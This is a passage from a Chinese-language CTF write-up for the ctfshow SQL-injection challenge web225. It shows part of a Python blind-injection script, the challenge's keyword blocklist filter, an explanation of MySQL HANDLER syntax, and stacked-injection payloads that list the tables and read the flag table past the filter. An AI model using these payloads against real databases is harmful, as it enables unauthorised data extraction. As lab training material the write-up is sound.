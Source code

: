 ```python
            'limit' : 1
        }
        r = requests.get(url=url, params=params)
 
		if 'passwordAUTO' in r.text: # 回显passwordAUTO，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```

## web225（handler）

```sql
  //分页查询
  $sql = "select id,username,pass from ctfshow_user where username = '{$username}';";
      
返回逻辑

  //师傅说过滤的越多越好
  if(preg_match('/file|into|dump|union|select|update|delete|alter|drop|create|describe|set/i',$username)){
    die(json_encode($ret));
  }
 
```

堆叠注入，常规的查询被ban了，考虑使用handler，先看官网文档说明

>HANDLER *tbl_name* OPEN [ [AS] *alias*] 
>
>HANDLER *tbl_name* READ *index_name* { = | <= | >= | < | > } (*value1*,*value2*,...)    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* READ *index_name* { FIRST | NEXT | PREV | LAST }    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* READ { FIRST | NEXT }    
>
>​	[ WHERE *where_condition* ] [LIMIT ... ] 
>
>HANDLER *tbl_name* CLOSE

handler能够一行一行的浏览一个表中的数据，但是 handler 语句并不具备 select 语句的所有功能。它是 MySQL 专用的语句，并没有包含到SQL标准中。handler 语句提供通往表的直接通道的存储引擎接口，可以用于 MyISAM 和 InnoDB 表。

首先查表：`payload：ctfshow';show tables;`

![image-20220113183036894](image/ctfshow-sql注入 （171-253）/image-20220113183036894.png)

然后查表中内容，`payload：ctfshow';handler ctfshow_flagasa open;handler ctfshow_flagasa read first;`

![image-20220113183231895](image/ctfshow-sql注入 （171-253）/image-20220113183231895.png)
